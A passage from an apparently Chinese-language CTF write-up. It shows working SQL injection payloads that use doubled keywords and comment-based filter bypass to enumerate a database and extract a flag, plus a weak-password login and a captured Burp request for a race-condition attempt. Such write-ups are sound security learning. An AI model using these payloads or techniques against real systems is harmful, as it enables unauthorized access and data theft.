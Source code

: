 返回错误

据此推断为字符型注入



使用联合查询获得数据库名（50’union select database()）

因为只会返回查询结果的第一条，所以要保证第一个查询无结果，同时有简单的sql注入过滤，所以要使用双写绕过过滤

50'ununionion/\*\*/seleselectct/\*\*/database()#

![image-20210210205358636](https://i.loli.net/2021/02/10/oretHz5vxWpijFg.png)

查询表名

50'ununionion/\*\*/seleselectct/\*\*/table_name/\*\*/frfromom/\*\*/information_schema.TABLES/\*\*/wwherehere/\*\*/TABLE_SCHEMA='week2sqli'#

![image-20210210222301494](https://i.loli.net/2021/02/10/kswnxRGrhymoO5S.png)

查询字段名

50'ununionion/\*\*/seleselectct/\*\*/column_name/\*\*/frfromom/\*\*/information_schema.columns/\*\*/wwherehere/\*\*/TABLE_SCHEMA='week2sqli'/\*\*/and/\*\*/table_name='f1111111144444444444g'#

![image-20210210223806603](https://i.loli.net/2021/02/10/hUxXQLGuSt7r4kM.png)

50'ununionion/\*\*/seleselectct/\*\*/ffffff14gggggg/\*\*/frfromom/\*\*/f1111111144444444444g#

![image-20210210224719553](https://i.loli.net/2021/02/10/hEKsDUi8PyJVCbI.png)



hgame{Con9raTu1ati0n5+yoU_FXXK~Up-tH3,5Q1!!=)}



## Liki的生日礼物

![image-20210207063428457](https://i.loli.net/2021/02/07/TOHJvoF56rWGQ2l.png)

尝试弱密码登录 admin admin登录成功

![image-20210207063540543](https://i.loli.net/2021/02/07/JXW85LhDb2NZr6G.png)

看样子已经有人来兑换过券了



尝试重新注册新的账号，并且尝试”条件竞争“漏洞。

浏览器发送一个购买请求

将购买请求塞给burp，

![image-20210210023611804](https://i.loli.net/2021/02/10/Evduz7wV9oRJj4Z.png)



```
POST /API/?m=buy HTTP/1.1
Host: birthday.liki.link
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 8
Origin: https://birthday.liki.link
Connection: keep-alive
Referer: https://birthday.liki.link/shop.html
Cookie: PHPSESSID=rp6rqok0sc8kfhnavpkcc0ceos
```